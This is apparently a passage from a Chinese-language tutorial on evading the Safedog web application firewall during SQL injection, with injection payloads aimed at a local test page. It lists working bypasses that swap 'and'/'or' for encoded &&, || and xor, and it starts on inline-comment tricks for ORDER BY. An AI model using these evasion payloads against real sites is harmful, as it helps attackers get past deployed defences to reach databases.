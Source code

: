 通过测试我们发现当 and 后面跟上 数字型和字符型时他会给我们拦截掉 ，其实我们在安全狗的规则里面可以看到他拦截 and 和 or 所以我们有2个思路

* 用其他字符替换 and 或者 or
* 带入的不是字符串和数字型，带入一个特殊符号
* 

针对第一种我们可以去看看运算符号 随便找到几个| ^ xor & / * && || 等等还有很多

```TXT
与运算 a & b  , 
或运算 a | b ,  
异或运算 a ^ b
```

那么可以试着将and替换成&&,URL编码得到%26%26,将1=1替换成true或者false,发现可以成功绕过

```url
http://127.0.0.1/test.php?id=1' %26%26 true%23
```

![](/OSS/image/20201201/9.png)

另外在分享一些可以绕过目前版本的安全狗测试payload (注:mysql支持&& || ,oracle不支持 && ||）

```TXT
http://127.0.0.1/test.php?id=1'  || true%23         //将and 1=1替换为|| true,也可以绕过安全狗
http://127.0.0.1/test.php?id=1'   ||(1) %23 		//使用括号代替空格绕过
//异或逻辑运算符xor，运算法则是：两个条件相同（同真或同假）即为假（0），两个条件不同即为真（1）
http://127.0.0.1/test.php?id=1'  xor 1%23			
http://127.0.0.1/test.php?id=1'  xor true%23
```

## 绕过order by查询

判断查询字段,使用mysql的<code>\/\*\!\*\/</code>内敛注释去绕过防护,而其中的代码是可以正常执行的
